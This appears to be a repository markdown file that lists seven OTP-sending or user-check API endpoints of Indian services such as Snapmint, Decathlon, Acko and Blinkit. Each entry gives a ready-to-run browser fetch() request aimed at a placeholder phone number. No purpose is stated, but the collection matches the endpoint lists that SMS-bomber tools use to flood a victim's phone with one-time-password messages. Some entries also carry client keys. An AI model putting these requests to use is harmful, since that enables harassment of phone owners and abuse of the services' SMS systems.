 ### https://api.snapmint.com/v1/logins/send_otp
- payload -> {"mobile":"1234567890","type":"user","origin":"snap_checkout"}
- fetch("https://api.snapmint.com/v1/logins/send_otp", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "authorization": "Bearer undefined",
    "content-type": "application/json; charset=UTF-8",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site",
    "Referer": "https://emis.snapmint.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"mobile\":\"1234567890\",\"type\":\"user\",\"origin\":\"snap_checkout\"}",
  "method": "POST"
});

### https://www.decathlon.in/api/login/sendotp
- payload -> {"param":"1234567890","source":1}
- fetch("https://www.decathlon.in/api/login/sendotp", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/json;charset=UTF-8",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "Referer": "https://www.decathlon.in/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"param\":\"1234567890\",\"source\":1}",
  "method": "POST"
});

### https://www.acko.com/lp/new-bike/api/send_otp
- payload -> {"phone":"1234567890"}
- fetch("https://www.acko.com/lp/new-bike/api/send_otp", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/json",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-landing-path": "/lp/new-bike",
    "x-landing-url": "https://www.acko.com/lp/new-bike/bike/checkout/details?proposal_id=MLhjPTzbTrGyjA1CBtz4MQ&step=details&flow=undefined",
    "Referer": "https://www.acko.com/lp/new-bike/bike/checkout/details?proposal_id=MLhjPTzbTrGyjA1CBtz4MQ&step=details&flow=undefined",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"phone\":\"1234567890\"}",
  "method": "POST"
});

### https://api.nnnow.com/d/apiV2/otp/generateOtp/v1/flash
- payload --> {"mobileNumber":"1234567890","otpTemplateId":"5b4e2e49b70e040008ffbcbe"}
- fetch("https://api.nnnow.com/d/apiV2/otp/generateOtp/v1/flash", {
  "headers": {
    "accept": "application/json",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "bbversion": "v2",
    "content-type": "application/json",
    "correlationid": "8d91e852-54e7-4653-bbd3-da4193b3c2e4",
    "module": "odin",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site",
    "Referer": "https://www.nnnow.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"mobileNumber\":\"1234567890\",\"otpTemplateId\":\"5b4e2e49b70e040008ffbcbe\"}",
  "method": "POST"
});

### https://www.playrummy.com/mobileLogin.php
- payload --> deviceid=WEB-YourIPAdressHere-1660066556&mobilenumber=1234567890&currenttimestamp=1660066619608&retrycount=0&appos=generic_website&signup=0&latitude=0&longitude=0&newaccount=0&register=0&encryptedkey=eefe02d5f0140c1a8d64eacde0bed7e2
- fetch("https://www.playrummy.com/mobileLogin.php", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest",
    "Referer": "https://www.playrummy.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "deviceid=WEB-YourIPAdressHere-1660066556&mobilenumber=1234567890&currenttimestamp=1660066619608&retrycount=0&appos=generic_website&signup=0&latitude=0&longitude=0&newaccount=0&register=0&encryptedkey=eefe02d5f0140c1a8d64eacde0bed7e2",
  "method": "POST"
});

### https://userauth.voot.com/usersV3/v3/checkUser
- payload --> {"type":"mobile","mobile":"1234567890","countryCode":"+91"}
- fetch("https://userauth.voot.com/usersV3/v3/checkUser", {
  "headers": {
    "accept": "application/json, text/plain, */*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "content-type": "application/json;charset=UTF-8",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site",
    "Referer": "https://www.voot.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "{\"type\":\"mobile\",\"mobile\":\"1234567890\",\"countryCode\":\"+91\"}",
  "method": "POST"
});

### https://blinkit.com/v2/accounts/
- payload --> user_phone=1234567890
- fetch("https://blinkit.com/v2/accounts/", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,hi;q=0.8,la;q=0.7",
    "app_client": "consumer_web",
    "auth_key": "4e3a92e963f19dae3ca71ad372bb6e53d0c3c3493a4cd3bf33e376335b3a1757",
    "content-type": "application/x-www-form-urlencoded",
    "platform": "mobile_web",
    "rn_bundle_version": "1009003012",
    "sec-ch-ua": "\"Chromium\";v=\"104\", \" Not A;Brand\";v=\"99\", \"Google Chrome\";v=\"104\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "Referer": "https://blinkit.com/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "user_phone=1234567890",
  "method": "POST"
});

